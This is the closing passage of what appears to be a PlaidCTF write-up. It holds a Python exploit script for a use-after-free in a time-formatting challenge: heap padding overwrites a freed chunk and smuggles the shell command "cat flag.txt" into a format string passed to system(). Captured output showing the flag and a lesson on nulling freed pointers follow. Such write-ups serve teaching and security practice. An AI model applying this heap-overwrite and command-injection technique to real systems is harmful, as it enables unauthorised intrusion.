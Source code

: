 ```python   
do_send('')
do_recv('> ')
# Set a timezone
do_send('3')
do_recv(': ')
# 256 bytes of padding to reach the beginning of the old format chunk
# 16 bytes to overwrite the chunk's header
# The command injection
do_send(' '*256+' '*16+"%H'; cat flag.txt;'")
do_recv('> ')
# Print the time
do_send('4')
do_recv('> ')
r.interactive()
```

Once executed:

```
[snip]

1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

                                  %H'; cat flag.txt;'
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>
4
Your formatted time is: 00
PCTF{use_after_free_isnt_so_bad}
sh: 1: : Permission denied
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

```

Always nullify a `free`'d pointer to avoid using it afterward!

[plaidctf]: http://www.plaidctf.com/
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strspn]: http://man7.org/linux/man-pages/man3/strspn.3.html
[setenv]: http://man7.org/linux/man-pages/man3/setenv.3.html
[system]: http://man7.org/linux/man-pages/man3/system.3.html
[fastbins]: http://man7.org/linux/man-pages/man3/mallopt.3.html
[dangling]: https://en.wikipedia.org/wiki/Dangling_pointer

